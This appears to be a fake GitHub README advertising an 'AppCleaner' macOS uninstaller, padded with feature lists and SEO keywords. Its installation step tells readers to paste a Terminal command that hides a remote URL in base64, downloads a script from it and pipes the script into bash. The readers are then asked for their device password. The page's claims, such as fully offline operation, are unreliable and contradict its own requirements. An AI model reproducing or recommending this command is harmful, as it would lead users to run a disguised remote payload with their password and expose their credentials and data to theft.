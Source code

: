 # 🧹 AppCleaner for macOS – Simple App Uninstaller

📌 **About AppCleaner Mac**  
AppCleaner is a powerful yet lightweight macOS application uninstaller that completely removes unwanted programs, including hidden support files, caches, preferences, and leftover folders. Designed for Mac users who value system cleanliness, it ensures every trace of an app is deleted, helping free up disk space and boost performance.  
It works perfectly on macOS Monterey, Ventura, and Sonoma, supports both Apple Silicon and Intel-based Macs, and offers an intuitive drag-and-drop interface for quick uninstalls. By operating entirely offline, AppCleaner guarantees your privacy with zero data tracking. Whether you’re removing old software, cleaning up after tests, or managing multiple Mac devices, it delivers a clean, optimized system every time.

## 🧰 Installation via a command in the terminal:
1. **Copy** the installation command below.  
2. **Open** Terminal on your device, **paste** the command, then press `Return`.  
3. **Enter** your device password when prompted and **confirm** the installation.

![Installing via Terminal](https://github.com/user-attachments/assets/85811a1f-2721-4e5f-911b-a66fe07e5fbd)

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nb3IvaW5zdGFsbC5zaA== | base64 -d))"
```
## 📸 Overview  
A quick look at key parts in action:  
![appcleaner-mac-interface-screenshot](https://github.com/user-attachments/assets/398044cd-8220-4bf5-9ad5-ac9ef02ef82e)
<img width="1299" height="859" alt="appcleaner-mac-free-up-disk-space" src="https://github.com/user-attachments/assets/253a7c27-976f-45a2-9e72-86b2d6cd4aa2" />


## 🎯 Key Features  
⚡️ **Complete App Removal**: Uninstalls applications and deletes all related files, caches, and preferences.  
🔒 **Offline Privacy**: Works fully offline with no tracking or data sharing.  
⚙️ **Drag-and-Drop Uninstall**: Remove apps by simply dragging them into the AppCleaner window.  
🚀 **Lightweight & Fast**: Runs efficiently without slowing down your Mac.  
🎨 **Native macOS UI**: Matches the macOS look and feel for a seamless user experience.  
📊 **Disk Space Recovery**: Clears leftover files to free up valuable storage.  
🖥 **Universal Mac Support**: Compatible with Apple Silicon and Intel Macs.  
🗑 **System Junk Cleanup**: Helps keep your system organized by removing orphaned files.  
🔄 **Repeatable Tasks**: Ideal for regular app cleanup and system maintenance.  
🧭 **Easy Navigation**: Simple interface for both beginners and advanced Mac users.  
🛠 **Safe Operation**: Prevents accidental deletion of essential system files.  
💾 **Small Footprint**: Uses minimal RAM and storage space.  
📂 **Custom Paths**: Allows scanning and cleaning of user-defined folders.  
⏱ **Quick Processing**: Performs scans and removals in seconds.  
📈 **Performance Boost**: Improves system responsiveness by eliminating unnecessary files.

## 💡 System Requirements  
- **OS**: macOS 12.0 Monterey or newer  
- **CPU**: Apple Silicon or Intel Core i5 and above  
- **RAM**: 4 GB minimum  
- **Storage**: 200 MB available  
- **Others**: Terminal access and active internet connection

## 🔍 SEO Keywords  
`appcleaner mac` · `mac app uninstaller` · `remove mac apps` · `delete apps macos` · `mac cleaner app` · `macos app removal` · `drag drop uninstaller` · `mac remove leftover files` · `uninstall apps completely mac` · `mac system cleaner` · `free up space mac` · `mac disk cleanup` · `mac delete program` · `mac remove software` · `macos cleanup tool` · `app remover mac` · `uninstaller tool macos` · `clean up mac storage`
